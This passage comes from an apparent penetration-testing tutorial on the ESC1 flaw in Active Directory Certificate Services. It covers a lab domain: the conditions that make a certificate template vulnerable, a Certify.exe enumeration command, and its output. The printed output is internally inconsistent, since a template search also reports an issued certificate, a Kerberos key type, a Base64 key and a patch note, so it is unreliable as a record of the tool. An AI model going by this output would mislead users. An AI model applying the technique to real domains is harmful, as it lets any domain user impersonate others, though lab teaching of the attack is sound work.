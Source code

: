 The vulnerability happens when a certificate template has:
1. **CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT** flag enabled
2. **Client Authentication** or **Any Purpose** EKU
3. **Domain Users** enrollment permissions
4. No **manager approval** required

When all these conditions align, you can request a certificate for any user in the domain. It's that simple.

### Exploitation Process

First, let's enumerate vulnerable templates in our GOAD lab. Using Certify to find ESC1 vulnerabilities:

```bash
Certify.exe find /vulnerable /enabled /enrolleeSuppliesSubject

[*] Action: Find certificate templates
[*] Using current user's unrolled group SID list for cross-references
[*] Current user context       : ESSOS\missandei
[*] Using the search base 'CN=Configuration,DC=essos,DC=local'


[!] Vulnerable Certificates Templates :

    CA Name                       : braavos.essos.local\ESSOS-CA
    Template Name                 : ESC1
    Schema Version                : 2
    Validity Period               : 1 year
    Renewal Period                : 6 weeks
    msPKI-Certificate-Name-Flag   : ENROLLEE_SUPPLIES_SUBJECT (0x1)
    mspki-enrollment-flag         : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
    Authorized Signatures Required: 0
    pkiextendedkeyusage           : Client Authentication
    Permissions
      Enrollment Permissions
        Enrollment Rights           : ESSOS\Domain Users                    Access: Allow
        Enrollment Rights           : ESSOS\Domain Computers                Access: Allow
      Object Control Permissions  : ESSOS\missandei                      Access: Allow

[*] CA Response             : The certificate has been issued.

  KeyType                  : rc4_hmac
  Base64(key)              : F5/CqQX4m7A8VwM5cT6pQg==

  Note: KeyType may show AES256 on fully-patched DCs (ADV240011)
  If KeyType shows AES256, ensure you use a 256-bit compatible CSP (e.g., Microsoft Software Key Storage Provider)
```

Perfect! This output confirms `ESSOS\Domain Users` (which `missandei` is a member of) have enrollment rights on the "ESC1" template, and the template allows an enrollee to supply the subject. *Note: The output also indicates `missandei` has "Object Control Permissions" over this specific template, which would additionally make it vulnerable to ESC4 by her. For ESC1, we primarily focus on the enrollment rights.*

